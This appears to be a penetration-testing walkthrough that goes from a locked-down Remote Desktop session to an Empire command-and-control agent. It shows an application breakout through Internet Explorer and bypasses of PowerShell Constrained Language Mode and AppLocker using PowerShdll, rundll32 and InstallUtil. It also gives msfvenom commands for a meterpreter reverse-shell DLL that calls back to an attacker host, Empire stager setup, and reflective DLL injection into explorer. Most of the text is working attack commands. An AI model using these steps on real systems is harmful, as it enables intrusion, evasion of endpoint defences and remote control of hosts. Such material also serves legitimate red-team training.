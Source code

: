 # From RDS app to Empire shell
This article details a scenario where you only have access to a Remote Desktop Service. This effectively atttemps to lock you to one application one, much similar to Citrix seen in corporate environments.
Additionally this scenario has Applocker on the target box, Powershell is in Language Constrained Mode which prevents many powershell tricks from being used. On top of that Windows Defender is eating your shells.

**Requirements:**
* The RDS server does not block port 80 outbound.
* .Net v3.5 for dll mode in PowerShdll

**Important notes**
powershell.exe _is_ not Powershell. It just hosts the assembly that contains PowerShell and handles I/O. System.Management.Automation.dll
Learn more from the links at the bottom of this article.

#### Getting shell from RDS notepad
https://blog.netspi.com/breaking-out-of-applications-deployed-via-terminal-services-citrix-and-kiosks/
https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/

From the notepad app
Click Help -> View help -> triggers Internet Explorer
Right click on anything -> save target as -> save as lol.ps1 on the Desktop
Press view downloads in IE, press the dropdown on the file, open with -> notepad. then just write powershell.exe in the file and save again
Now right click -> "save target as" in IE again. Go to the dropdown "save as type" and select "all files". The ps1-file you have saved will be revealed and you can just press "run with powershell" and a powershell prompt should pop up. This shell should be in Constrained mode. Verify with `$ExecutionContext.SessionState.LanguageMode`, which should say `ConstrainedLanguage`.

#### Bypssing PoSh constrained mode
Download PowerShdll from https://github.com/p3nt4/PowerShdll
Host powershdll.dll on Kali web server using `python -m SimpleHTTPServer 80`
Navigate to the following URL in IE where http://10.7.253.10/PowerShdll.dll
Save as -> PowerShdll.dll to whatever folder you like. `C:\Windows\Tasks` is generally nice to use when Applocker is installed because it is usually whitelisted. I'm not sure exactly how to check for DLL rules in an Applocked environment yet.
Now navigate to the desktop in the other powershell prompt
Use rundll32 to execute the dll
`rundll32 .\PowerShdll.dll,main -w`
A new interactive powershell prompt should pop up
Verify that constrained language mode has been bypassed with
$ExecutionContext.SessionState.LanguageMode
It should say FullLanguage

#### Getting meterpreter shell
Generate a dll payload
```
msfvenom windows/x64/meterpreter/reverse_tcp lhost=10.7.253.10 lport=8081 -f dll -o msf.dll
```
Set up listener in msf with same payload, host and port.

```
use multi/handler
set host tun0
set port 8081
set payload windows/x64/meterpreter/reverse_tcp
exploit
```
Download the msf.dll using the IE "save as" trick from before. For some reason I am not sure why the dll payload is not eaten by Windows Defender, not on disk and not when executed. It could possibly be the x64 signature of the payload is not yet recgonized as malware by Defender.

Now, use rundll32 to execute the dll. We use this because rundll32 is a binary that will not be blocked by Applocker.

`rundll32 .\PowerShdll.dll,Control_RunDLL`

Shell should now spawn in msf.

#### Empire without powershell.exe
This assumes you have a metasploit Session established.
In Empire, create an empire listener and stager. The important things is to set Base64 to false to prevent the stager from calling powershell.exe, which won't work here because of the constrained language mode.
```
uselistener http
set Host 10.7.253.18
set Port 4444
execute
back
usestager multi/launcher
set Base64 false
generate
```

Now in MSF:
```
load powershell
powershell_shell
```
Copypaste the empire listener in the interactive shell, and an agent should spawn in Empire. Congratulations!




## More advanced technique

#### Bypassing powershell constrained mode and applocker
This technique involves packing everything together several times to bypass all the security mechanisms. I recommend reading the article below and trying to replicate each step. Albeit, I have made a step by step overview of it below.
https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell

1 Generate a listener and a hta stager using windows/hta

2 Open ReflectivePick project in visual studio. Add the hta base64 shell stager where appropriate and compile the dll to `ReflectivePick_x64.dll`

3 Use the following commands in PS to encode the DLL to base64 and pipe the results to a file
```
$Content = Get-Content .\ReflectivePick_x64.dll -Encoding Byte
$Encoded = [System.Convert]::ToBase64String($Content)
$Encoded | Out-File "C:\Windows\Tasks\dll.txt"
```


4 Copypaste the content of dll.txt into a new variable in Invoke-ReflectivePEInjection.ps1
```
$dllData = "DLLBASE64_GOES_HERE"
$ProcId = (Get-Process explorer).Id
$Bytes = [System.Convert]::FromBase64String($dllData)
Invoke-ReflectivePEInjection -PEBytes $Bytes -ProcId $ProcId
```


5 Base64 encode the entire script using https://www.base64encode.org/
Open the Bypass project in VS and copypaste the base64 into the encoded variable.
Compile to Bypass.exe with VS.

6 Use installutil.exe to execute bypass.exe

```
set-location \\tsclient\lkylabs
copy-item .\Bypass.exe c:\windows\tasks
cd c:\windows\tasks
C:\windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\Bypass.exe
```


### Useful links

* https://github.com/Ben0xA/AwesomerShell
* https://www.youtube.com/watch?v=czJrXiLs0wM
* https://adsecurity.org/?p=2921
* https://bneg.io/2017/07/26/empire-without-powershell-exe/
* https://artofpwn.com/offensive-and-defensive-powershell-ii.html
* https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell
* https://github.com/caseysmithrc/DeviceGuardBypasses
* https://github.com/Joshua1909/AllTheThings
* https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html

